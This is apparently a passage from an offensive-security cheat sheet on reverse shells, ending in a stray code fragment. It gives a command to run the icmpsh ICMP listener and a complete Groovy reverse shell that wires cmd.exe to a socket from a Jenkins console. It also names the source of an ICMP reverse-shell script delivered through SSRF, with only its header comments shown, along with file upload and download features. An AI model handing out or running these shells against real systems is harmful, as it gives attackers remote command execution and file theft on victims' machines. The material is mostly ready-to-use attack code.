 On the other end, make sure you run the master listener to catch the request.

```bash
sudo python icmpsh_m.py [your-ip] [destination-ip]
```

You can download it from here

```
https://github.com/bdamele/icmpsh
```

#### Jenkins reverse shell

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

#### ICMP reverse shell \[delivery and exploitation]

Use the below script if all other reverse shells operating on TCP are failing. The below script sends a powershell ICMP payload and retrieves a shell at the same time. It can also enables you to upload files to the target. The script delivers the payload through a http request with curl. The target server must be vulnerable to \[SSRF]

```
UPLOAD source destination
```

**source**

```
https://github.com/Alamot/code-snippets/blob/master/hacking/HTB/Minion/icmp_alamot.py
```

**Script** Make sure to modify on \[LHOST] \[RHOST] \[RPORT] according to your environment.

```python
#!/usr/bin/env python2

# Author: Alamot

# -----------------------------------------------------------------------------

# Available commands:

# -----------------------------------------------------------------------------

# > UPLOAD local_path remote_path

# (to upload a file using the HTTP protocol via xcmd, "echo >>" commands and

# base64 encoding/decoding)

# e.g. > UPLOAD myfile.txt C:\temp\myfile.txt

#

# > DOWNLOAD remote_path

# (to download a file using the ICMP protocol and base64 encoding/decoding)

# e.g. > DOWNLOAD C:\temp\myfile.txt
```

[Text.Encoding]: :ASCII)) .ReadToEnd() ;"